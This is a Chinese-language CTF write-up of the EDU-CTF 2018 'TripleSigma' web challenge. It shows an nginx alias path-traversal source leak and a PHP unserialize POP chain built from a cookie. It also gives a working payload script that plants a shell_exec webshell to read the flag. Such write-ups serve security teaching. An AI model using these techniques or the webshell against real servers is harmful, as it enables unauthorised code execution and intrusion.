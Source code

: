 ```yaml
---
uuid: 9aeb46bc
title: EDU-CTF 2018 - TripleSigma
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - EDU-CTF 2018
date: 2019-02-02 00:00:00
updated: 2019-02-02 00:00:00
---
```


這題包含很多知識，在做的時候查很多資料而收穫良多，從 nginx 漏洞到 PHP POP 都有。推薦大家先自己做做看！因為很有趣，從 22:00 解到 07:00 ...

<!--more-->

# [正文]

先觀察頁面有沒有漏洞，初步觀察後發現是用 nginx 架設，有 static 子目錄，推測有 nginx 路徑漏洞，網址輸入：`http://final.kaibro.tw:10004/static../`，成功拿到 source code。

{% note info %}
### Nginx 目錄穿越漏洞

常見於 Nginx 做 Reverse Proxy 的狀況，例如 config 設置 `location /files { alias /home/ }`
會因為 `/files` 沒有加上結尾 `/` ，而 `/home/` 有，所以 `/files../` 可以訪問上層目錄
{% endnote %}

{% codeblock lang:plain line_number:false %}
site
├── static
│   ├── ...
│   └── js
│       └── k.js
├── lib
│   ├── class_articlebody.php
│   ├── class_article.php
│   ├── class_avatar.php
│   ├── class_cookie.php
│   ├── class_debug.php
│   ├── class_filemanager.php
│   ├── class_oldfm.php
│   ├── class_user.php
│   ├── ...
├── avatar.php
├── blog.php
├── footer.php
├── header.php
├── index.php
├── joinus.php
├── login.php
├── logout.php
├── register.php
├── team.php
└── user.php
{% endcodeblock %}

`class_oldfm.php` 很坑，裡面滿滿的漏洞，但是沒有被引用 QQ，另外 `k.js` 的內容是 Konami Code ( ⇧⇧⇩⇩⇦⇨⇦⇨ⒷⒶ ) 的梗，輸入後會在 console 印奇怪的訊息

## Analysis

首先可以發現在 class_user.php 裡可以找到 username 和 password，先登入看看，可以發現 blog 頁面可以留言了。不知道能幹麻，先放著。先搜尋可能有漏洞的函式：

### file_get_contents 和 file_put_contents
1. 發現 OldFileManager 可以用，但是 trace 一下發現他根本沒有被 include..
2. 參數都不可控制，死路。

### unserialize
1. 發現在 `class_cookie.php` 的 `MyCookie::__construct()` 有 `unserialize()`，參數可以藉由 `$_cookie["e"]` 來控制
  {% codeblock class_cookie.php lang:php line_number:true first_line:7 %}
  $enc = $_COOKIE['e'];
  $dec = base64_decode(strrev($enc));
  $arr = explode("|", $dec); // 可以構造成 “1234|payload”
  {% endcodeblock %}

2. unserialize 後的 object 會 assign 給 `$this->article`
  {% codeblock class_cookie.php lang:php line_number:true first_line:23 %}
  if(count($arr) === 2) {
      $this->uid = $arr[0];
      $obj = unserialize($arr[1]);
      $this->article = $obj;
  }
  {% endcodeblock %}

3. 在 `blog.php` 發現它 `new MyCookie()` 後使用 `MyCookie::restore()`
  {% codeblock blog.php lang:php line_number:true first_line:64 %}
  if(isset($_COOKIE['e'])) {
      $myck = new MyCookie();
      $r = $myck->restore();
  } else {
      $r = NULL;
  }
  {% endcodeblock %}

4. 回到 `class_cookie.php` 查看，可以發現 `MyCookie::restore()` 回傳的就是可以控制的 `$this->article`，表示我們也能夠控制 `blog.php` 的 `$r`
  {% codeblock class_cookie.php lang:php line_number:true first_line:36 %}
  public function restore() {
      if($this->uid !== NULL && $this->article !== NULL)
          return $this->article; 
      else
          return NULL;
  }
  {% endcodeblock %}

5. 在 `blog.php` 裡面繼續往下發現 `$r` 會被丟進 `print_title($r)` 和 `print_content($r)`，這兩個都會 `echo $r->body->title`，找找看其他 class 有沒有好用的 `__toString` 可以用
  {% codeblock blog.php lang:php line_number:true first_line:99 %}
  function print_title($r) {
      if(isset($r)) {
          echo $r->body->title;
      }
  }

  function print_content($r) {
      if(isset($r)) {
          echo $r->body->content;
      }
  }
  {% endcodeblock %}

6. 不難發現只有 `class_debug.php` 的 `Debug::__toString()` 能夠使用，其他的都沒有在額外 call function，找找看其他 class 有沒有好用的 `save()` 可以用
  {% codeblock class_debug.php lang:php line_number:true first_line:12 %}
  function __toString() {
      $str = "[DEUBG]" . $msg;
      $this->fm->save(); 
      return $str;
  }
  {% endcodeblock %}

7. 在 `class_filemanager.php`, `class_article.php`, `class_user.php` 都有發現`save()`
  * `class_filemanager.php`, `class_article.php` 的 `save()`，雖然都有 `file_put_contents`，但參數都不可控，死路。
  * 剩下 `class_user.php` 的 `save()`，可以發現 `($this->func)($this->data)` 且 `$this->func` 和`$this->data` 都可以透過 `unserialize()` 的時候就控制到！
  {% codeblock class_user.php lang:php line_number:true first_line:41 %}
  public function save() {
      if(!isset($this->data))
          $this->data = User::getAllUser();

      if(preg_match("/^[a-z]/is", $this->func)) {
          if($this->func === "shell_exec") {
              ($this->func)("echo " . escapeshellarg($this->data) . " > /tmp/result");
          } 
      } else {
          ($this->func)($this->data);
      }
  }
  {% endcodeblock %}

8. 剩下如何 bypass `preg_match("/^[a-z]/is", $this->func)`，找了一些資料後後發現加入反斜線可以成功 bypass: `$func = '\shell_exec'`。

  {% note info %}
  ### PHP Global space
  在 PHP ( >= 5.3.0, 7) 中在名稱前加上前綴 `\` 表示該名稱是全局空間中的名稱，是合法的 syntax。
  {% endnote %}

9. 整個 POPchain：Article.body -> ArticleBody.content -> Debug.__toString() -> User.save()

## Create payload

1. 因為他是直接 `($this->func)($this->data)` 不會 echo 出來，所以必須想辦法找到可讀寫的地方，在 `class_article.php` 下發現 `/var/www/app/articles/` 這個路徑，看起來可讀寫，建立 webshell payload：`$data = 'echo \'<?=shell_exec($_GET[0]);?>\' >/var/www/app/articles/<name>.php'`

  {% codeblock payload.php lang:php line_number:true %}
  <?php
  include("lib/class_article.php");
  include("lib/class_articlebody.php");
  include("lib/class_cookie.php");
  include("lib/class_user.php");
  include("lib/class_debug.php");
  include("lib/class_filemanager.php");


  $title = "title";
  $content = new Debug("content");
  $content->fm = new User();
  $content->fm->func = "\shell_exec";
  $content->fm->data = "echo \'<?=shell_exec($_GET[0]);?>\' >/var/www/app/articles/VHJpcGxlIFNpZ21hIH.php";

  $article = new Article( $title, $content );
  $article->author = "article";

  echo strrev( base64_encode( "1234|" . serialize( $article ) ) );
  {% endcodeblock %}

## Get shell

1. 執行 `php payload.php` 後得到的 payload 丟進 `cookie[e]`，重整後到 webshell 的頁面。
  {% codeblock lang:shell line_number:false  %}
  $ php payload.php
  =0Xf913OiAHaw5CaFlmYxo1RJBjVul1ZR12Yoh2RJZnTIlEaxIjWw5kRJ ...
  {% endcodeblock %}

  {% codeblock Http request lang:plain line_number:false  %}
  http://final.kaibro.tw:10004/articles/VHJpcGxlIFNpZ21hIH.php
  GET 0=ls%20/                # 發現 _fl4g___yo, readflag
  GET 0=ls%20-al%20%2F        # 發現 _fl4g___yo 沒辦法 cat
  GET 0=/readflag             # 直接執行 readflag -> get flag
  {% endcodeblock %}

FLAG: `FLAG{b4d_ng1nx_4nd_l0000ng_p0p_cha1n}`
